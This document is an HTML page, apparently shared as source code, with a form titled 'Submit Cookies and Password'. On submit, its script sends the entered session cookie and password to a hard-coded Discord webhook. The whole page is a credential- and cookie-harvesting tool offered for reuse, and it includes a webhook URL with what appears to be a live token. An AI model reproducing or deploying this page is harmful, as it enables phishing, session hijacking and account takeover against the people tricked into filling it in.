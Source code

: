 <!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Submit Cookies and Password</title>
</head>
<body>
    <h2>Enter Your Cookie and Password</h2>
    <form id="dataForm">
        <label for="cookie">Cookie:</label>
        <input type="text" id="cookie" name="cookie" required><br><br>

        <label for="password">Password:</label>
        <input type="password" id="password" name="password" required><br><br>

        <button type="submit">Submit</button>
    </form>

    <script>
        document.getElementById('dataForm').addEventListener('submit', function(event) {
            event.preventDefault();
            
            const cookie = document.getElementById('cookie').value;
            const password = document.getElementById('password').value;
            
            const webhookURL = 'https://discord.com/api/webhooks/1357337114748129342/x-pyGxpex3twlgDjR2AnvFbR6O9piz0ASpe1Golwzf5pg8oTRiE1hBPcw_K3p4h--fRE'; // Replace with your Discord webhook URL
            
            const payload = {
                content: `Cookie: ${cookie}\nPassword: ${password}`
            };
            
            fetch(webhookURL, {
                method: 'POST',
                headers: {
                    'Content-Type': 'application/json'
                },
                body: JSON.stringify(payload)
            })
            .then(response => response.json())
            .then(data => {
                alert('Data sent successfully!');
            })
            .catch(error => {
                console.error('Error:', error);
                alert('An error occurred.');
            });
        });
    </script>
</body>
</html>
